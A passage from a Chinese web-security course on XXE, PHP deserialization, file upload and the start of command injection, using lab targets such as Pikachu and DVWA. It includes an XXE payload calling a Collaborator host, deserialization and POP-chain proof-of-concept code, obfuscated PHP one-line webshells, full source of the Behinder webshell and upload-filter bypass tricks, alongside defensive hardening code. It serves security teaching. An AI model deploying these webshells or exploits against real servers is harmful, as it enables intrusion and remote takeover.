无论是手工测试还是自动化，当前检测 XXE 和 SSRF 漏洞的方式大多是基于此 原理。
上一讲介绍的 Burp Collaborator，在此处就用得上，使用前面介绍的常见攻击 手段，去尝试构造多种测试请求，是否向 Burp Collaborator Server 请求成功， 就可以很容易地判断是否存在 XXE。
以 Pikachu 靶场的 XXE 题目为例。用 Burp Collaborator 获得 DNS解析服务 器的地址 b5hcm1ypwg6bvqnxtm6iyqao9ff53u.burpcollaborator.net，然后构造 XXE payload。
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "http://b5hcm1ypwg6bvqnxtm6iyqao9ff53u.burpcollaborator.net">
]>
<x>&xxe;</x>
将上述 payload 输入文本框，点“提交”：
图 6 输入 xml payload
在 Burp Collaborator client 上点击“Poll now”就可以看到请求日志，说明 确实存在 XXE 漏洞。

图 7 利用 XXE 请求 Collaborator server 成功
2.白盒审计
以 Java 为例，可以在代码中搜索常用的 XML 解析器，看它们在实例化之后，是否有关闭外部实体引用功能，如果没有就可能存在 XXE 漏洞。
javax.xml.parsers.DocumentBuilderFactory; javax.xml.parsers.SAXParser javax.xml.transform.TransformerFactory javax.xml.validation.Validator javax.xml.validation.SchemaFactory javax.xml.transform.sax.SAXTransformerFactory javax.xml.transform.sax.SAXSource org.xml.sax.XMLReader DocumentHelper.parseText DocumentBuilder org.xml.sax.helpers.XMLReaderFactory org.dom4j.io.SAXReader org.jdom.input.SAXBuilder org.jdom2.input.SAXBuilder javax.xml.bind.Unmarshaller javax.xml.xpath.XpathExpression javax.xml.stream.XMLStreamReader org.apache.commons.digester3.Digester rg.xml.sax.SAXParseExceptionpublicId
这部分可以结合 “XML External Entity Prevention Cheat Sheet” 来看，不 同语言、不同的 XML 解析库有不同的关闭外部实体引用的方法，在代码审计时， 可以对照着看，然后拿 一些xxe payload 实际验证下。
防御 XXE 漏洞
要防御 XXE 也比较简单， 关闭外部实体引用即可 。比如在 Java 中常用于 解析XML 的 DocumentBuilderFactory，就可以通过 setFeature 方法防御 XXE 漏洞，注意是组合使用，而不是单一防御。
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
String FEATURE = null;
try {
// 禁用DTD
FEATURE = "http://apache.org/xml/features/disallow-doctype-decl";
dbf.setFeature(FEATURE, true);
// 禁用普通实体
FEATURE = "http://xml.org/sax/features/external-general-entities";
dbf.setFeature(FEATURE, false);
// 禁用参数实体
FEATURE = "http://xml.org/sax/features/external-parameter-entities";
dbf.setFeature(FEATURE, false);
// 禁用外部DTD引用
FEATURE = "http://apache.org/xml/features/nonvalidating/load-external-dtd";
dbf.setFeature(FEATURE, false);
// 禁用XInclude处理功能
dbf.setXIncludeAware(false);
// 禁用扩展实体引用节点，注意：只使用该方法并不能完全防御XXE
dbf.setExpandEntityReferences(false);
} catch () {
...
}
// Load XML file or stream using a XXE agnostic configured parser...
DocumentBuilder safebuilder = dbf.newDocumentBuilder();
不同的 XML 解析库有不同的关闭方式，比如全面介绍 XXE 防御方案的是 OWASP 发表的“XML External Entity Prevention Cheat Sheet”，针对不同的语言、 XML解析库，给出不同的防御方案，并提供关闭 XML实体引用的代码示例，你在 防御或者需要修复 XXE 漏洞时可以作为参考。
如果业务需要引用外部实体，建议采用白名单方式限制。
小结
本节课介绍了 XXE（XML实体注入）漏洞相关的基础知识、漏洞成因和常见攻击 手段，有时需要根据有无回显的情况，采取不同的测试方法。
在日常实际应用中，大家都习惯当作无回显的情况来看待，因为无回显的检测方 法同样适用于有回显的，相对比较通用。
同时，给你推荐了 XXEinjector 和 XXExploiter 两款利用工具，在辅助检测 XXE漏洞时会有所帮助。个人更偏好用XXExploiter，因为它功能更多，利用成功 率更高一些，还可以生成 payload用于测试。
Burp Collaborator 在检测无回显的 XXE 漏洞时，非常好用，结合 XXExploiter生成的 payload，对其中的 URL 调整为 Burp Collaborator Server，借助 Burp Collaborator 的自动检测服务端的请求日志，可以帮助判断 漏洞是否存在，又不用再自己搭建外网服务器，是一种节约成本的检测方法。
反序列化漏洞：数据转换下的欺骗
上一讲介绍了 XXE漏洞，它在业务场景中很容易用于读取敏感文件、进行代码执 行，甚至也会用来渗透内网，也因此XXE 漏洞常被当作一种严重漏洞来对待。
本讲我将介绍另一种常用来实现远程代码执行的漏洞类型-— 反序列化漏洞 ，这几年经常出现在Java 公共库，比如阿里的 fastjson，还有一些 Java 应用 服务器，比如 JBoss 。PHP 也有反序列化，比如著名的 Joomla内容管理系统很多 编程语言都有这种反序列化功能，若对反序列化的数据未做有效过滤和限制，就 可能导致这种漏洞的产生。
下面我就详细给你介绍下关于反序列化漏洞攻防的方方面面，演示案例我依然会 以 PHP 为例，方便大家学习。
序列化与反序列化
为什么会有序列化与反序列化的需求呢？
序列化是把对象转换成有序字节流，通常都是一段可阅读的字符串，以便在网络 上传输或者保存在本地文件中。同样，如果我们想直接使用某对象时，就可能通 过反序列化前面保存的字符串，快速地重建对象，也不用重写一遍代码，提高工 作效率。
以 PHP 语言为例，下面以代码示例介绍下序列化与反序列化，帮助你更直观地理 解两者的概念。
1.序列化示例
PHP 中通过 serialize函数进行序列化操作，先定义个类，然后用它创建个类对 象再序列化，代码示例如下：
<?php
class People{
public $id = 1;
protected $name = "john";
private $age = 18;
}
$obj = new People();
echo serialize($obj);
?>
我在 PHP 7.4.3 版本下执行，它会输出以下这段字符串：
$ php -v PHP 7.4.3 (cli) (built: Oct 6 2020 15:47:56) ( NTS ) Copyright (c) The PHP Group Zend Engine v3.4.0, Copyright (c) Zend Technologies with Zend OPcache v7.4.3, Copyright (c), by Zend Technologies $ php test.php 'O:6:"People":3:{s:2:"id";i:1;s:7:" * name";s:4:"john";s:11:" People age";i:18;}'
注意：有些终端在输出时，可能会把其中的 \x00 过滤掉，"Peopleage" 其实是 "\x00People\x00age"这样的数据，在后面进行反序列化操作时要注意，可拿前 面的变量名长度进行对比。
对生成后序列化字符串前半部分做个解释，后面类似：
O：代表对象Object 6：对象名称长度 People：对象名称 3：变量个数 s：数据类型 2：变量名长度 id：变量名 i：整数类型 1：变量值
序列化后有很多数据类型的表示，你先提前了解一下，以后写反序列化利用时有可能会用到。
a - array 数组型 b - boolean 布尔型 d - double 浮点型 i - integer 整数型 o - common object 共同对象 r - objec reference 对象引用 s - non-escaped binary string 非转义的二进制字符串 S - escaped binary string 转义的二进制字符串 C - custom object 自定义对象 O - class 对象 N - null 空 R - pointer reference 指针引用 U - unicode string Unicode 编码的字符串
相信到这里，你对所谓的序列化操作有了直观的认识感受，它就是将对象转换成 可阅读可存储的字符串序列。
2.反序列化示例
反序列化就是对前面的序列化的反向操作，即将字符串序列重建回对象。
现在我们将前面生成的序列化字符串进行反序列化操作，通过 unserialize()函 数来实现：
<?php
$str = 'O:6:"People":3:{s:2:"id";i:1;s:7:" * name";s:4:"john";s:11:" People age";i:18;}';
$u = unserialize($str);
echo $u->id;
?>
执行之后，成功获取到 People 的属性 id值，说明反序列化重建出来的对象是 可用的：
$ php test.php 1
如果你访问 $name 与 $age 就会出错，因为它们不是公有属性，不可直接访问：
PHP Fatal error: Uncaught Error: Cannot access private property People::$age in /tmp/test.php:14
Stack trace:
#0 {main}
thrown in /tmp/test.php on line 14
PHP Fatal error: Uncaught Error: Cannot access protected property People::$name in /tmp/test.php:14
Stack trace:
#0 {main}
thrown in /tmp/test.php on line 14
这里主要介绍的是 PHP 的序列化与反序列化，很多语言也都有这种功能，我在后 面的“扩展：其他语言的反序列化”小节中做了补充，你可以继续去探索下其他 语言。
漏洞是如何产生的？
反序列化原本只是一个正常的功能，那为什么反序列化就会产生漏洞呢？
当传给 unserialize() 的参数由外部可控时，若攻击者通过传入一个精心构造 的序列化字符串，从而控制对象内部的变量甚至是函数，比如PHP中特殊的 魔 术方法 （详见下文），这些方法在某些情况下会被自动调用，为实现任意代码 执行提供了条件，这时反序列化漏洞就产生了，PHP反序列化漏洞有时也被称为 “PHP 对象注入”漏洞。
攻击反序列化漏洞
反序列化参数可控后，如果我们只能针对参数的类对象进行利用，那么攻击面就 太小了。这时利用 魔术方法 就可以扩大攻击面，它在该类的序列化或反序列 化中就可能自动完成调用，对于漏洞的利用可以直到关键作用。
除此之外，还有后面将介绍到的 POP 链构造等手法都可以进一步扩大攻击面，达 到代码执行的效果。
1.利用魔术方法
魔术方法就是 PHP中一些在某些情况下会被自动调用的方法，无须手工调用，比 如当一个对象创建时__construct 会被调用，当一个对象销毁时 __destruct 会 被调用。
下面是 PHP 中一些常用的魔术方法：
__construct() #类的构造函数 __destruct() #类的析构函数 __call() #在对象中调用一个不可访问方法时调用 __callStatic() #用静态方式中调用一个不可访问方法时调用 __get() #获得一个类的成员变量时调用 __set() #设置一个类的成员变量时调用 __isset() #当对不可访问属性调用isset()或empty()时调用 __unset() #当对不可访问属性调用unset()时被调用。 __sleep() #执行serialize()时，先会调用这个函数 __wakeup() #执行unserialize()时，先会调用这个函数 __toString() #类被当成字符串时的回应方法 __invoke() #调用函数的方式调用一个对象时的回应方法 __set_state() #调用var_export()导出类时，此静态方法会被调用。 __clone() #当对象复制完成时调用 __autoload() #尝试加载未定义的类 __debugInfo() #打印所需调试信息
下面通过一段漏洞代码来演示下魔术方法在反序列化漏洞中的利用，vul.php漏 洞代码如下：
<?php
class People {
private $type;
function __construct(){
$this->type = new Student();
}
function __destruct() {
$this->type->run();
}
}
class Student {
function run() {
echo "he is a student.";
}
}
class Evil {
var $cmd;
function run() {
system($this->cmd);
}
}
unserialize($_GET['str']); // 漏洞触发点，引用外部可控参数作为反序列化数据
?>
先分析下代码，$_GET['str'] 获取 get 参数 str 值，然后传递给 unserialize进行反序列化操作，这就是导致漏洞的地方。
那么我们该如何利用呢？审查整份代码，发现 Evil 类中的命令执行方法run()， 如果能控制其中的 $cmd 变量就可以实现远程命令执行。在 People 类 的__construct 方法中有属性赋值操作，将 Student 对象赋值给 $type 属性。
同时，在 __destruct 方法中有调用 run()方法的操作，因此我们可以设法此这 些操作关联起来，写出利用代码去生成用来实现命令执行的序列化字符串。
poc.php 利用代码如下：
<?php
class People {
private $type;
function __construct(){
$this->type = new Evil();
}
}
class Evil {
var $cmd = 'id';
}
$people = new People();
$str = serialize($people);
echo $str;
?>
运行生成序列化字符串：
$ php poc.php
O:6:"People":1:{s:12:"Peopletype";O:4:"Evil":1:{s:3:"cmd";s:2:"id";}}
里面的 "Peopletype" 又被吃掉 \x00 了，得补回去，然后将上述字符串作为 get参数 $str 的值发送给 vul.php：
http://127.0.0.1/vul.php?str=O:6:%22People%22:1:{s:12:%22%00People%00type%22;O:4:%22Evil%22:1:{s:3:%22cmd%22;s:2:%22id%22;}}
图 1 成功利用反序列化漏洞执行任意命令
总结下利用思路：
- 寻找原程序中可利用的目标方法，比如包含 system、eval、exec等危险函数 的地方，正如示例中的 Evil 类；
- 追踪调用第 1 步中方法的其他类方法/函数，正如示例中 People 类方 法__destruct()；
- 寻找可控制第 1 步方法的参数的其他类方法函数，正如示例中 People 类方 法__construct()；
- 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串；
- 将生成的序列化字符串传递给漏洞参数实现利用。
2.POP 链构造
面向属性编程（Property-Oriented Programing，POP）利用现有执行环境中原 有的代码序列（比如原程序中已定义或者可动态加载的对象属性、方法），将这 些调用组合在一起形式特定的调用链，以达到特定目的的方法。这与二进制漏洞 利用中的ROP（Return-Oriented Progaming，面向返回编程）的原理是相似的。
其实前面利用魔术方法构建调用链的方法就算是 POP 链，只是比较简单，在真实 的漏洞环境中，会复杂很多。
我从网上找了一道 CTF 题，以帮助你更好地理解构建 POP 链的思路。
题目代码如下，代码中有 3 个类，Output 类有构造方法 construct 和析构方 法destruct，Show 类中有一些设置属性值的方法，Test类中则含有读取文件的 方法，最后使用 GET 参数传入 unserialize()函数导致反序列化漏洞。
<?php
class Output{
public $test;
public $str;
public function __construct($name){
$this->str = $name;
}
public function __destruct(){
$this->test = $this->str;
echo $this->test;
}
}
class Show{
public $source;
public $str;
public function __construct($file){
$this->source = $file;
echo $this->source;
}
public function __toString(){
$content = $this->str['str']->source;
return $content;
}
public function __set($key,$value){
$this->$key = $value;
}
public function _show(){
if(preg_match('/http|https|file:|gopher|dict|\.\.|f1ag/i',$this->source)){
die('hacker!');
} else {
highlight_file($this->source);
}
}
public function __wakeup(){
if(preg_match("/http|https|file:|gopher|dict|\.\./i", $this->source)){
echo "hacker~";
$this->source = "index.php";
}
}
}
class Test{
public $file;
public $params;
public function __construct(){
$this->params = array();
}
public function __get($key){
return $this->get($key);
}
public function get($key){
if(isset($this->params[$key])){
$value = $this->params[$key];
} else {
$value = "index.php";
}
return $this->file_get($value);
}
public function file_get($value){
$text = base64_encode(file_get_contents($value));
return $text;
}
}
show_source(__FILE__);
$name=unserialize($_GET['strs']);
?>
按照前面介绍的利用思路，一步步来套用上。
1. 寻找原程序中可利用的目标方法，比如包含 system、eval、exec等危险函 数的地方。
在题目中，没有找到上面用于执行代码或命令的函数，但是在Test::file_get() 调用 file_get_contents读取文件内容，如果能够利用它实现任意文件读取也是 可取的，因此就以 Test类方法 file_get 为目标方法；
2. 追踪调用第 1 步中方法的其他类方法/函数。
看哪里调用 Test::file_get()，可以看到是Test::get()，再往上追踪，发现是 在 Test::__get() 调用的，这个 __get()魔术方法的触发条件是：读取不可访 问属性值，包括私有或未定义属性。在Show::__toString() 中就有对未定义属 性 $content 的操作，这样就会触发__get() 方法。再往上追溯，发现 Output::__destruct() 中调用到 echo函数可触发 __toString() ，这样就得到 整个调用链如下：
图 2 调用链
3. 寻找可控制第 1 步方法的参数的其他类方法函数。
这里需要控制的是 file_get_contents($value) 中的参数$value，依次往上追 溯，发现其来自数组中的一个元素值，得到如下传播路径：
图 3 参数传播路径
为了对应 Show::__toString() 中的 $this->str['str']->source ，我们可以通过array('source'=>'可控内容') 来控制 $value，即打算读取的文件路径。进一步优化下传播路径：
图 4 优化后的参数传播路径
4. 编写 poc，构建恶意类对象，然后调用 serialize 函数去生成序列化字符串。
根据图 2 的调用链可以知道，起始的调用类在Output，因此我们需要反序列化 它。
基于前面的分析，PoC 代码如下：
<?php
class Output{
public $test;
public $str;
public function __construct($name){
$this->str = $name;
}
public function __destruct(){
$this->test = $this->str;
echo $this->test;
}
}
class Show{
public $str;
public $source;
public function __toString(){
$content = $this->str['str']->source;
return (string)$content;
}
}
class Test{
public $file;
public $params;
// 原方法的定义此处省略，因为它对生成序列化字符串没有影响
}
$test = new Test();
$test->params = array('source'=>'/var/www/html/flag.php');
$show = new Show();
$show->str = array('str'=>$test);
$output = new Output($show);
echo serialize($output);
?>
执行后得到如下序列化字符串：
O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
5. 将生成的序列化字符串传递给漏洞参数实现利用
漏洞参数是 GET 参数 str，因此可以如此构造请求：
http://127.0.0.1/vul.php?str=O:6:"Output":2:{s:4:"test";N;s:3:"str";O:4:"Show":2:{s:3:"str";a:1:{s:3:"str";O:4:"Test":2:{s:4:"file";N;s:6:"params";a:1:{s:6:"source";s:22:"/var/www/html/flag.php";}}}s:6:"source";N;}}
整个过程可能有点绕，但 POP链的利用技术就是如此，需要你对目标程序进行全 方位的分析，提取出可利用的调用链进行组装，才有可能实现真正的攻击效果。
3.phar 文件攻击
在 2018 年 BlackHat 黑客大会上，安全研究员 Sam Thomas 分享了议题“It's a PHP unserialization vulnerability Jim, but not as we know it”，介绍 了一种关于利用 phar 文件实现反序列化漏洞的利用技巧，利用的是phar 文件 中序列化存储用户自定义的meta-data，在解析该数据时就必然需要反序列化， 配合 phar://伪协议即可触发对此的反序列化操作。比如如下代码即可触发对 test.txt文件内容的反序列化操作：
$filename = 'phar://phar.phar/test.txt'; file_get_contents($filename);
在实际利用时，还可以对 phar文件进行格式上的伪造，比如添加图片的头信息， 将其伪装成其他格式的文件，用于绕过一些上传文件格式的限制。
更加具体技术资料，推荐以下两篇：
《It's a PHP unserialization vulnerability Jim, but not as we know it》
如何挖掘反序列化漏洞？
1.代码审计
个人认为，想主动检测一些反序列化漏洞，特别是 0day漏洞，最好的方法就是 代码审计，针对不同的语言的反序化操作函数，比如 php unserialize 函数， 还要注意 phar文件攻击场景，然后往上回溯参数的传递来源，看是否有外部可 控数据引用（比如GET、POST 参数等等），而又未过任何过滤，那么它就有可能 存在反序列化漏洞。
2.RASP 检测
在《08 | SQL 注入：漏洞的检测与防御》中已经介绍过RASP，可以针对不同的 语言做一些 Hook，如果发现一些敏感函数（比如 php eval、unserialize）被 执行就打印出栈回溯，方便追踪漏洞成功，以及漏洞利用技术技巧，整个POP 链 也可以从中获取到。
所以，通过 RASP 不仅有利于拦截漏洞攻击，还可以定位漏洞代码，以及学习攻 击者的利用技术，为后续的漏洞修复和拦截提供更多的参考价值。
3.动态黑盒扫描
通过收集历史漏洞的payload，再结合网站指纹识别，特别是第三方库的识别， 然后再根据不同的第三方库发送对应的payload，根据返回结果作漏洞是否存在 的判断。
这项工作也常于外曝漏洞后的安全应急工作，然后加入日常漏洞扫描流程中，以应对新增业务的检测。
防御反序列化漏洞
- 黑白名单限制
针对反序列化的类做一份白名单或黑名单的限制，首选白名单，避免一些遗漏问 题被绕过。这种方法是当前很多主流框架的修复方案。
黑名单并不能完全保证序列化过程的安全，有时网站开发个新功能，加了一些类 之后，就有可能绕过黑名单实现利用，这也是为什么有些反序列化漏洞修复后又 在同一个地方出现的原因。
- WAF
收集各种语言的反序列化攻击数据，提取特征用于拦截请求。
- RASP
RASP 除了可以检测漏洞外，它本身也可以提供类似 WAF 的防御功能。
扩展：其他语言的反序列化
其他编程语言也存在对应的序列化和反序列化功能，其产生和利用的原理与 PHP 类似。
- Python
使用模块 pickle 就可以实现对一个 Python 对象结构的二进制序列化和反序列化
# 序列化 pickle.dump(obj, file, protocol=None, *, fix_imports=True) # 反序列化 pickle.load(file, *, fix_imports=True, encoding='ASCII', errors='strict')
- Java
在 Java 中，只要一个类实现了 java.io.Serializable接口，那么它就可以被 序列化，通过 ObjectOutputStream 和 ObjectInputStream来实现序列化与反序 列化操作。
// 序列化
ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream(new File("d:/string.txt")));
oos.writeObject(obj) // 将对象序列化后的字符串写入d:/string.txt
// 反序列化
ObjectInputStream ois = new ObjectInputStream(new FileInputStream(new File("d:/string.txt")));
ois.readObject(); // 读取d:/string.txt中的序列化字符串，并重建回对象
- Ruby
在 Ruby 中可以使用 Marshal 模块实现对象的序列化与反序列化操作。
# 序列化 str = Marshal.dump(obj) #反序列化 obj = Marshal.load(str)
小结
本节课主要介绍 PHP 下反序列化漏洞，专门举几个代码 demo 进行演示，让你对 序列化与反序列化有个实际的直观感受，然后构造漏洞demo，讲解针对反序列化 漏洞的利用思路，旨在帮助你加深 POP链与魔术方法利用技巧，这在反序列化漏 洞利用中是最为常用的。
其他语言也有反序列化漏洞，比如 Java语言，大家可以在留言区中评论，探讨 其他语言的一些反序列化漏洞。
文件上传漏洞：种植服务器木马的捷径
上一讲介绍过反序列化漏洞，利用漏洞常可以造成执行代码的严重后果。
从本讲开始将介绍文件上传漏洞，它比反序列化漏洞原理与利用更加简单，但同 样可以达到控制服务器的严重后果，不少攻击者会通过此类漏洞向服务器种植木 马，以获取服务器的控制权限。
下面我们就详细介绍下文件上传漏洞的原理、利用方法、绕过限制、检测与防御。
漏洞成因
文件上传漏洞正是在文件上传功能中，由于对用户上传的文件数据未做有效检测 或过滤不严，导致上传的恶意文件被服务端解释器解析执行，利用漏洞可获取系 统控制权。
很多网站都有一些文件上传功能，常见的是图片、视频、压缩文档上传，如果网 站是PHP 写的，那么上传 PHP到服务器就有可能被解析，若服务器支持其他语言 的解析执行，比如ASP、JSP、ASPX 等文件也可达到同等攻击效果，达到恶意代 码执行。
以 DVWA 靶场的文件上传漏洞为例：
图 1 DVWA File Upload
对应的漏洞代码如下，通过 POST 请求将文件上传到“网站根目录 /hackable/uploads/”目录：
<?php if( isset( $_POST[ 'Upload' ] ) ) { // Where are we going to be writing to? $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/"; $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] ); // Can we move the file to the upload folder? if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) { // No echo '<pre>Your image was not uploaded.</pre>'; } else { // Yes! echo "<pre>{$target_path} succesfully uploaded!</pre>"; } } ?>
中间没有任何限制，也就是说上传 PHP 文件也可以，简单写个包含 phpinfo() 的 php 文件：
<?php phpinfo(); ?>
上传后有路径提示：
图 2 上传 PHP 成功
访问地址：http://127.0.0.1/hackable/uploads/phpinfo.php，可以看到 phpinfo() 已经被执行成功。
图 3 解析成功的 phpinfo
就如果我们上传的 PHP 是更多恶意功能的脚本，就可以实现更多攻击行为。
利用漏洞上传 Webshell
1.一句话木马
提到 Webshell 木马，就不得不提下“一句话木马”。PHP 一句话木马可以通过 GET、POST、COOKIE这几种方式提交数据，然后将数据传递给代码/命令执行函数， 从而实现任意代码/命令执行。
比如以下这个一句话木马：
<?php eval(@$_GET['a']); ?>
将上述代码保存为 eval.php 并上传至网站，然后构造请求：
http://127.0.0.1/hackable/uploads/eval.php?a=phpinfo();
利用一句话木马成功执行 phpinfo() 函数。
图 4 利用一句话木马执行代码
有时为了绕过木马检测，攻击者会对一句话进行混淆变形，比如下面几句。
- 利用字符串拼接执行函数名：
<?php $a="e"."v"; $b="a"."l"; $c=$a.$b; $c($_POST['a']); ?>
- 通过 base64_decode 编码执行函数名：
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
- 由 GET 参数指定函数名和参数：
<?php $_GET['a']($_GET['b']); ?>
行业内常称“一句话木马”为“小马”，用它来传递“大马”，因为“大马”比较容易被检测到。
2.Webshell 管理工具
攻击者常用“菜刀”“冰蝎”“蚁剑”、Weevely、Cknife 这些 Webshell工具 去连接一句话木马，其中尤以“菜刀”最为出名。
由于原版“菜刀”只支持Windows，因此我这边选用支持跨平台的“冰蝎”作为 演示，可进入Github对“冰蝎”进行下载。
下载解压后的目录：
$ tree . ├── 更新日志.txt ├── Behinder_v3.0_Beta6_linux.jar ├── data.db └── server ├── shell.asp ├── shell.aspx ├── shell.jsp ├── shell.jspx.jsp └── shell.php
server 目录就是用来上传服务端的小马，我们选择上传shell.php，默认使用连 接密码 rebeyond，你可根据需要自行修改，然后用密码32 位 md5 哈希值替换 key 变量即可。
shell.php 代码如下：
<?php @error_reporting(0); session_start(); $key="e45e329feb5d925b"; //该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond $_SESSION['k']=$key; $post=file_get_contents("php://input"); // 读取上传文件内容 if(!extension_loaded('openssl')) { $t="base64_"."decode"; $post=$t($post.""); // 如果没有openssl扩展就调用base64_decode for($i=0;$i<strlen($post);$i++) { $post[$i] = $post[$i]^$key[$i+1&15]; } } else { // 如果有openssl扩展就采用AES128位解密，因为冰蝎是加密传输的 $post=openssl_decrypt($post, "AES128", $key); } $arr=explode('|',$post); $func=$arr[0]; $params=$arr[1]; class C{public function __invoke($p) {eval($p."");}} @call_user_func(new C(),$params); ?>
上传成功后得到地址：
http://127.0.0.1/hackable/uploads/shell.php
使用以下命令打开冰蝎客户端：
java -jar Behinder_v3.0_Beta6_linux.jar
右击菜单选择“新增”，把 shell.php 地址输入 URL，同时输入 shell.php中 的连接密码（此处我使用默认密码“rebeyond”），点击“保存”。
双击保存的 URL 去连接 shell.php，如果成功的话，会打开phpinfo，同时在右 上角显示“已连接”。
上面有很多附带功能，你可以管理服务器文件：
可以执行命令：
还有数据库管理、执行自定义代码以及内网穿透时常用的端口映射、Socks隧道 等等功能。
之前使用“菜刀”的人比较多，也导致不少网站增加了对其的检测规则，后来不 少人改用通信加密与设置连接密码的“冰蝎”，也有人基于此做了二次开发，做 一些检测特征清除，从而绕过一些安全系统的查杀。
最后再提醒下，本文提及的相关工具仅限安全研究学习之用，请勿用于任何非法途径，否则后果自负。
绕过上传限制
1.禁用 JS
很多时候，开发在限制上传文件格式时，仅是在前端 JS上做简单的文件后缀名 判断，若不是就中断处理。对于这种情况安装个 NoScript插件，禁用 JS 再上 传即可绕过。
2.篡改数据包
对于前端 JS 的限制，除了禁用 JS 外，我们还可以使用 curl、nc、BurpSuite 等工具构造数据包去发送请求，这样是不经过浏览器前端 JS的处理，从而绕过 限制。这里的篡改内容，可依据前端 JS的校验内容来定，比如后缀名、 Content-type 等等。
3.文件头绕过
不同文件格式有不同的文件头，比如下表：
这样我们就可以尝试在 php文件前面加个图片文件头，看是否可以绕过检测，比 如下面 shell.php 内容：
BM <?php phpinfo(); ?>
从这也可以看出，检测文件格式最后是文件头＋后缀名都一块检测，否则仍有绕过的可能。
4.%00 截断
前端限制对防御上传漏洞的能力相对是比较弱的，更多还是得靠服务端，但如果 限制不当，仍有可能绕过。比如对文件后缀、路径上的检测，有时可通过添加％ 00 截断来绕过，比如：
upload.php?type=image&file=shell.php%00.jpg
5.大小写绕过
有时检测未区分文件名大小写时，可使用此方法绕过。
6.后缀别名绕过
有些执行脚本存在多个后缀别名，若网站对此检测不全时，也有可能绕过，不同 语言的常用后缀如下表：
html 文件上传后可用于 XSS或者钓鱼欺骗等攻击，相比其他语言可直接在服务 端执行代码的危害低一些，但仍要重视。
7.结合其他漏洞绕过
可利用一些服务器的解析漏洞来绕过，比如利用 apache对不同后缀名的处理顺 序机制，当后缀名不可识别时，就往左判断，比如shell.php.php123 有可能被 识别为 php 类型来执行。
nginx 也出现过类似漏洞，比如 1.jpg/1.php 被当作 php来执行，这种服务端 解析漏洞就比较难单纯依靠网站代码来解决，前提还是需要先堵住漏洞。
如何发现上传漏洞
1.黑盒扫描
在日常的网站扫描中，一般不会上传真实的木马，常常使用 phpinfo来代替，这 样对业务的影响是最小的。有时也会 echo一段字符串来代替，但这种有时被外 部发现，又可能被外部炒作被黑，存在公关风险。
当爬虫网页时，若发现存在文件上传功能，就自动构造请求上传包含以下代码的文件：
<?php phpinfo(); ?>
先根据返回包特征判断是否上传成功，然后再去寻找上传路径。扫描器可以设置 一个随机文件名，然后再常见目录去检测是否上传成功。
如果是自家服务器，你倒可以在服务器上布署个文件创建的监控，然后根据文件 名获取上传路径，最后访问文件路径判断是否可访问。这种做法的通用相对比较 差，很多时候也并不是对自己服务器的测试。
2.流量监测
由于黑盒扫描对上传文件路径的确认比较困难，所以流量监测成为一种常用方法， 不仅是上传漏洞，其实其他漏洞也同样适用的。
通过监测流量中疑似的webshell，获取相关请求数据告警出来，然后再人工确认， 我们在用这种方法在实际业务中多次发现上传漏洞。
3.白盒审计
如果手上有源代码，直接审计代码也是一种不错方式。在 PHP 中是通过 $_FILE 来读取文件，它拥有以下几个常用属性：
- $_FILES[file]['name']：上传文件名
- $_FILES[file]['tmp_name']：存储在服务器的文件的临时副本的名称
- $_FILES[file]['size']：上传文件大小
- $_FILES[file]['type']：上传文件类型
其中的 name 与 tmp_name可以理解为污染源触发上传文件存储的函数常见于： move_uploaded_file，审计代码时就可以先从此函数入手，看其参数是否有来源 于上述污染源数据，并且中间无任何的上传限制，那就有可能存在上传漏洞，最 后再手工上传验证下。
漏洞防御
对于上传漏洞的修复和防御，可以从以下几方面入手：
1. 严格检测上传文件后缀名、文件头、Content-type，尽量采用白名单方式 限制。
2. 重编码文件，比如对图片或视频做转换处理。
3. 限制文件大小，避免被恶意上传大文件造成存储空间不足，进而网站无法 正常运行。
4. 在服务端本地检测Webshell，发现后告警出来，人工确认后再删除，同时 排查是否为外部入侵导致的，查日志去追踪可能存在的漏洞来源。
5. 使用 WAF 拦截木马的上传，这种可能比较容易被绕过。
6. 使用 RASP 在服务端中对于执行脚本的关键函数进行 hook，比如 php eval，在触发外部数据输入执行时就告警和阻断。
7. 限制上传目录可不解析，不同的服务器有不同的配置方式，比如 Nginx可 按如下方式配置。
location ~* ^/uploads/.*\.(php|php5)$
{
deny all;
}
8. 上传文件重命名，建议使用随机文件名。
9. 隐藏上传文件路径相关信息，比如关闭错误回显，不要像本课中的 DVWA靶 场的题目那样直接把上传路径直接返回。
小结
本节课主要介绍文件上传漏洞的成因、利用、检测与防御，也简单介绍了一句话 木马、常用Webshell 工具，同时重点介绍了一些绕过上传限制的常用技巧。
在实际渗透测试过程中，你需要结合业务实际场景来灵活运用，最好是摸清网站 的一些限制策略，再做测试用例上的调整，这样才会比较适用。
下一讲开始，我将会介绍“命令注入”漏洞，这也是一种常见的严重漏洞，严重 到需要企业安全人员半夜起来加班应急。我将介绍命令注入漏洞的成因、常见的 利用技巧，并会总结一些常见的限制绕过方法，以及漏洞挖掘与防御的主流方式， 所以别忘来听课～
命令与代码注入：常令安全人员半夜应急的漏洞
上一讲介绍了文件上传漏洞的攻防原理，利用可能直接控制服务器，危害严重。
本节课再给大家介绍一种叫命令注入的严重漏洞，由于它也能 直接控制服务器 ，因此常令企业安全人员半夜应急。
为何是半夜呢？因为搞站的人经常是晚上下班后开搞，也专业挑安全人员下班的 时间，减少被发现和阻断的情况。
命令注入漏洞成因
命令注入，主要指应用在服务器或客户端上，允许拼接系统命令并执行而造成的 漏洞。对于web 网站，通常是针对服务器的攻击利用。
PHP 中常见的系统命令执行函数有：
- system()
- exec()
- shell_ exec()
- proc_open()
- popen()
- passthru()
- ……
如果外部用户的输入数据（如 GET、POST、Cookie等数据）未做任何过滤或转义， 直接转递给上述命令执行函数，就会造成命令注入漏洞。
总结下形成命令注入漏洞的条件：
- 内部存在命令执行函数的调用
- 用户输入数据作为参数传递给命令执行函数
- 输入参数未做任何过滤或转义
漏洞利用实战
1.命令拼接技巧
